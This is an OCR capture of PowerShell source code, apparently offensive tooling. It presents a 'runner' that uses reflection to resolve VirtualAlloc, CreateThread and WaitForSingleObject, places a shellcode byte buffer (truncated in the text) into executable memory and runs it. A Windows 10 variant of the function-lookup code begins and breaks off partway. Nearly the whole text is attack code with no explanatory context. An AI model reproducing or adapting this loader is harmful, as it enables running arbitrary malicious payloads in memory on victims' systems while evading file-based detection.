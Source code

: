     ###########Runner (runner.txt):#############
    function LookupFunc {
    Param ($moduleName, $functionName)
    $assem = ([AppDomain]::CurrentDomain.GetAssemblies() | Where-Object { $_.GlobalAssemblyCache -And $_.Location.Split('\\')[-1].Equals('System.dll') }).GetType('Microsoft.Win32.UnsafeNativeMethods')
    $tmp=@()
    $assem.GetMethods() | ForEach-Object {If($_.Name -eq "GetProcAddress") {$tmp+=$_}}
    return $tmp[0].Invoke($null, @(($assem.GetMethod('GetModuleHandle')).Invoke($null, 
    @($moduleName)), $functionName))
    }
    function getDelegateType {
    Param ([Parameter(Position = 0, Mandatory = $True)] [Type[]] $func, [Parameter(Position = 1)] [Type] $delType = [Void])
    $type = [AppDomain]::CurrentDomain.DefineDynamicAssembly((New-Object System.Reflection.AssemblyName('ReflectedDelegate')), [System.Reflection.Emit.AssemblyBuilderAccess]::Run).DefineDynamicModule('InMemoryModule', $false).DefineType('MyDelegateType', 'Class, Public, Sealed, AnsiClass, AutoClass', [System.MulticastDelegate])
    $type.DefineConstructor('RTSpecialName, HideBySig, Public', [System.Reflection.CallingConventions]::Standard, $func).SetImplementationFlags('Runtime, Managed')
    $type.DefineMethod('Invoke', 'Public, HideBySig, NewSlot, Virtual', $delType, $func).SetImplementationFlags('Runtime, Managed')
    return $type.CreateType()
    }
    $lpMem = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((LookupFunc kernel32.dll VirtualAlloc), (getDelegateType @([IntPtr], [UInt32], [UInt32], [UInt32]) ([IntPtr]))).Invoke([IntPtr]::Zero, 0x1000, 0x3000, 0x40)
    [Byte[]] $buf = 0xfc,0xe8,0x8f,0x0,............................
    [System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $lpMem, $buf.length)
    $hThread = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((LookupFunc kernel32.dll CreateThread), (getDelegateType @([IntPtr], [UInt32], [IntPtr], [IntPtr], [UInt32], [IntPtr]) ([IntPtr]))).Invoke([IntPtr]::Zero,0,$lpMem,[IntPtr]::Zero,0,[IntPtr]::Zero)
    [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((LookupFunc kernel32.dll WaitForSingleObject), (getDelegateType @([IntPtr], [Int32]) ([Int]))).Invoke($hThread, 0xFFFFFFFF)

    ###########Win10 Version (run2_win10.txt):#############
    //Might need if Get-ProcAddress errors out

    Function potatoes
        {
            Param
            (
                [OutputType([IntPtr])]
                [Parameter( Position = 0, Mandatory = $True )]
                [String]
                $Module,
                [Parameter( Position = 1, Mandatory = $True )]
                [String]
                $Procedure
            )
            $SystemAssembly = [AppDomain]::CurrentDomain.GetAssemblies() | Where-Object { $_.GlobalAssemblyCache -And $_.Location.Split('\\')[-1].Equals('System.dll') };
            $UnsafeNativeMethods = $SystemAssembly.GetType('Microsoft.Win32.UnsafeNativeMethods');
            # Get a reference to the GetModuleHandle and GetProcAddress methods
            $GetModuleHandle = $UnsafeNativeMethods.GetMethod('GetModuleHandle');
            #Deal with the fact that windows now has two of these, we'll select the second one
            $x=$($UnsafeNativeMethods.GetMethods() | where-object {$_.name -eq "getprocaddress"});

